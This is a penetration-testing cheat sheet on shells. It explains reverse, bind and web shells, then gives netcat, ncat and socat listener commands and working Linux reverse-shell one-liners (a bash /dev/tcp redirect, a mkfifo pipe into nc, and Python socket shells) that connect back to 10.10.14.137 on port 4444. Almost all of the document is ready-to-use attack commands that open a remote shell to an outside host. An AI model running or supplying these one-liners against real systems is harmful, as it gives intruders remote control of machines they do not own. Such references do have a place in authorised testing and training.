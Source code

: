 # Shells

## Shells

Shell techniques are essential for penetration testers to gain access and control over target systems. This document provides commands and methods for various shell types.

### Shell Types

A shell is software that facilitates interaction with the operating system through command lines. There are three primary connection methods:

| **Type**         | **Method**                                             |
| ---------------- | ------------------------------------------------------ |
| _Reverse Shells_ | Connects back to our system                            |
| _Bind Shells_    | Waits for us to connect to the system                  |
| _Web Shells_     | Communicates through a web server over HTTP parameters |

### Reverse Shells

Reverse shells initiate a connection from the target back to the attacker's machine. They're especially useful when target systems are behind firewalls or NAT.

#### Setting Up a Listener

```bash
# Basic netcat listener
nc -lvnp 1234

# Listeners with different tools
ncat -lvnp 1234
socat TCP-LISTEN:1234,reuseaddr,fork - 
```

#### Linux Reverse Shells

**Bash TCP Socket**

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.137/4444 0>&1"
```

**Bash FIFO/Pipe Method**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.137 4444 >/tmp/f
```

**Python Reverse Shell**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.137",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
